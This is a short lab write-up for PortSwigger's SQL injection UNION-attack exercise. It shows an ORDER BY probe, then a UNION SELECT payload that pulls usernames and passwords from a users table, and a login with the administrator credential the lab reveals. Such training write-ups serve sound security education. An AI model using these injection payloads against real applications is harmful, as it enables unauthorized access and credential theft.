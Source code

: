 ## Welcome, my friend. Today we will start the [10. SQLLI lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/4107ed70-640a-4428-a5e9-504db42a6b6e)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/3edddac6-545e-4e0f-9ca4-0da162a8cc3e)


### We discover this page and find category paramater ```/filter?category=```.
### Let's test and inject this param:

```
filter?category=' ORDER BY 2--
```

![image](https://github.com/user-attachments/assets/79a33169-a606-489e-ae1e-90966b4bbd72)


### We know that The database contains a different table called ```users```, with columns called ```username``` and ```password```

![image](https://github.com/user-attachments/assets/545c7e51-949b-431a-b706-99f6f49fdc63)

### Now, We will using following payload:

```
filter?category=' UNION SELECT username,password FROM users--
```

![image](https://github.com/user-attachments/assets/077984d7-a4fe-4749-aa5a-46d61966d81d)

### We got on ```administrator``` account, Let's login with credential:

```
administrator:lep67j9lgr8m1wo7f5ca
```

![image](https://github.com/user-attachments/assets/8a9a97c6-6733-4a6e-b027-90a7345741cc)

-------------------------


### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>

